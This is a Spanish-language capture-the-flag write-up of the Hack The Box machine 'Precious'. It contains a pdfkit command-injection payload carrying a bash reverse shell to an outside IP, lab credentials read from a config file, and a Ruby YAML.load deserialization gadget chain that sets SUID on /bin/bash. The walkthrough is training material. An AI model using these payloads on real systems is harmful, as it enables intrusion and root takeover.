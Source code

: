 ```yaml
---
title: Precious
layout: encrypted
---
```


Hoy resolveremos la máquina retirada "Precious" es una máquina de hack the box de dificultad fácil.


![Precious](https://user-images.githubusercontent.com/109216235/207889455-5ddd49b1-bb86-4f89-af3e-65c44935f1f1.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la máquina con nmap


```nmap
sudo nmap 10.10.11.189
Nmap scan report for 10.10.11.189
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


# [](#header-2) Vulnerabilidad


Antes de poder entras tenemos que actualizar nuestro etc/hosts para que la IP apunte a precious.htb
Despues, podríamos entrar en la página.


![image](https://user-images.githubusercontent.com/109216235/207906514-b59cd9d7-607c-4e39-a5de-cc88c267d635.png)


Viendo esto podemos crearnos un servidor con python3 para que nos cree un pdf de nuestro servidor

```python
python3 -m http.server 4444
```

![image](https://user-images.githubusercontent.com/109216235/207906825-45cbd4c1-f7e9-48de-92e8-8053d8e595b7.png)


Esto nos generará un pdf. Lo analizamos con "exiftool" y podemos ver que versión de pdfkit se utiliza


![image](https://user-images.githubusercontent.com/109216235/207907027-277bf2aa-0889-4f7d-9118-127fe9b59a28.png)


Buscamos información sobre como injectar comandos en esta máquina. En este sitio https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 encontramos una vulnerbilidad de la que nos podemos aprovechar.
Usando el ejemplo podemos manipularlo para que nos dé una revershell. Recordad que tenemos que poner en escucha "netcat"

```netcat
netcat -lnvp 4444
```

Ejemplo:
```bash
http://example.com/?name=#{'%20`sleep 5`'}
```
Revershell cambiando el ejemplo:
```bash
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.18/4444 0>&1"`'}
```

Este comando que hemos creado hace:
bash -c: permite introducir strigns
bash -i: Hace que la revershell sea interacitva
/dev/tcp/10.10.16.18/4444: crea la revershell cuando se ejecuten


![image](https://user-images.githubusercontent.com/109216235/207907465-d2cdd79e-7a17-4eb0-8fef-2b00fedc3b7c.png)


Dentro de la máquina podemos encontrar dentro del usuario "ruby" una carpeta oculta llamada "bundle" que contiene las credenciales de "henry"


```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```


# [](#header-2) Escalada de privilegios


Accedemos al ssh con las credenciales de "henry"


```ssh
ssh henry@10.10.11.189
henry@10.10.11.189's password:Q3c1AqGHtoI0aXAYFH
```

Dentro de la carpeta /home/ de "henry" encontramos la user.txt y ya tendríamos la mitad de la máquina


Utilizamos ```sudo -l``` para ver que se ejecuta como root

```ssh
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Buscamos como escalar de privilegios con Ruby YAML.load. En esta página (https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) encontramos una vulnerabilidad. Vemos que si manipulamos el campo git-set podemos escalar de privilegios.

Ejemplo:
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Escalada cambiando el ejemplo:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```


No se nos puede olvidar que este script se tiene que llamar dependencies.yml y tiene que estar en la carpeta /home/ de "henry"

Ahora ejecutamos este script con ```bash -p``` y tendríamos una shell root. Buscamos la carpeta /root/ y allí encontrariamos la root.txt y habríamos completado la máquina.
